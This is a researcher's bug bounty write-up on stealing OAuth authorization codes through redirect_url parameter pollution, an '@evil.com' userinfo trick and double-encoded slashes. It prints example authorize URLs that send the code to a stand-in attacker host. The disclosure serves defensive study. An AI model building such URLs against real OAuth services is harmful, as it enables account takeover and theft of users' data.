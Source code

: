 # Steal the OAuth code or token with an open redirect because of parameter pollution

## How:

The application provides a service for third-party applications to create an OAuth app with it, Let's call our application example.com and the third party one third.com so third.com tells you that you can connect your example.com account with your current account, So in order to do this the third.com has to ask example.com to make him an OAuth application, This is just to demonstrate the feature.

So what happens after you click on sign in with or connect using example.com, the third.com redirects you to example.com with a request like this ----> 
**https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&state=[some value]**, So by visiting this endpoint example.com will ask you to consent third.com then redirect you back to third.com with the OAuth code.


So I thought about what will happen if I added another redirect_url parameter like this **https://example.com/oauth/authorize?response_type=code&redirect_url=https://third.com/callback&redirect_url=https://evil.com&state=[some value]**, By doing this I found that example.com redirects me to third.com but with this interesting way **https://third.com/callback/,https://evil.com?code=[some value]&state=[some value]**, Noticed the  **,http://evil.com**, I intercepted the requests after clicking on consent and I have found the app sends the consent request with the two redirect_uri like this **redirect_url=https://third.com/callback&redirect_uri=https://evil.com** and the response of it is just 200 status code with the code and state in the body of the response.


So I knew that the problem of appending the two redirect_uri is not from the backend code but it's from the client side code, So I thought how can I get an open redirect by this clearly the client code adds the character "," Before appending the two redirect_uri like this **https://third.com/callback,https://evil.com**, I thought about removing the https:// part from the second redirect_uri and add a dot character like this ".evil.com" to make it look like a subdomain but I knew that the subdomain part can't has, or /.


So what about adding @ sign rather than using dot of course this didn't work also because if you redirected to an endpoint like this **https://third.com/callback/,@evil.com** it won't redirect you to evil.com, So what is about encoding, If you tried to paste this in a browser admin@evil.com you will see that a browser like a firefox treats the first part before @ as a user name so it's like connecting to a server using ssh if you tried it before, So leave the second redirect_uri with a value like this @evil.com and double encode the special characters in the first redirect_uri like this **https://third.com%252Fcallback%252F**.


Why double-encode it? because, If you are redirected to an endpoint like this **https://third.com%2Fcallback%2F,@evil.com** you will see that the browser translates %2F to / and still redirects you to third.com so to come across this, encode the / two times so that the first time the browser decodes it %2F but the second time it won't decode it to/so that the final redirection will be like this **https://third.com%2Fcallback%2F,@evil.vom?code=[some code]&state=[some state]** and you will be redirected to evil.com with the oauth code and you succeeded to steal the OAuth code.


So where is the problem? at the backend however that it receives the first redirect_uri like this **https://third.com%252Fcallback%252F** but what it does is that it double decodes it and then validate it against the stored value and of course, it will be true so it will return the OAuth code, but if it didn't double decode it won't be true so even if the user redirected to evil.com he won't be redirected with the OAuth code so the impact is low.

What is the impact? the impact is high this application provides oauth apps to third-party applications so every third-party application is affected by it, It can lead to account takeover or sensitive data leak.

### Range Hall Of Fame : https://www.range.co/security/hall-of-fame (as Mekky)

### My Info :

#### Intigriti : https://app.intigriti.com/researcher/profile/mekky

#### Linkedin : https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/

#### Twitter : https://twitter.com/Mekky49295157



